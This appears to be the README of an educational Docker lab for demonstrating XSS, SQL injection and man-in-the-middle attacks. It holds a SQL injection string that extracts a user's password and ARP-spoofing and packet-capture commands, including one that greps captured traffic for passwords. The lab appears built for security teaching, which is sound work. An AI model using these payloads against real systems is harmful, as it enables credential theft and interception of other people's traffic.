

# How to run the project
1. Clone the repository
2. Have docker and docker-compose installed
3. Run the following command in the root directory of the project
```bash
docker-compose up
```

# Infrastructure
The project is composed of 4 containers:
1. MySQL Database
    - Container IP: 172.25.0.2
    - MySQL Port: 3306
2. PHP Apache Web Server
    - Container IP: 172.25.0.3
    - Web Port: 8080
3. Kali Linux noVNC Desktop
    - Container IP: 172.25.0.4
    - Ports: 5900, 8080, 9020, 9021
4. Debian Based noVNC Desktop
    - Container IP: 172.25.0.5
    - Ports: 9002

# Cross Site Scripting (XSS) Life Cycle Supplement
Demo Attack Gif

[Click here to view the supplemental material](pdfs/XSS_Life_Cycle_Supplement.pdf)

# SQL Injection Life Cycle Supplement
Demo Attack Gif

[Click here to view the supplemental material](pdfs/SQL_Injection_Life_Cycle_Supplement.pdf)

SQL Text for injection
```text
'+(SELECT userPW FROM Authenticate WHERE userID='teacher')+'
```

# Man-in-the-Middle Life Cycle Supplement
Demo Attack Gif

[Click here to view the supplemental material](pdfs/Man_in_the_Middle_Life_Cycle_Supplement.pdf)

Commands used in the demo attack
```bash
# use this to MITM the traffic both ways
arpspoof -t <target> <gateway>
arpspoof -t <gateway> <target>
# use this to view live traffic
webspy -i <interface>
# use this to save all traffic to a file
tcpdump -i <interface> -w <file.pcap> -s 0 tcp
# use this to view the saved traffic
tcpick -C -yP -r <file.pcap>
# How to use tcpick and grep to find passwords
tcpick -C -yP -r <file.pcap> | grep -i password
```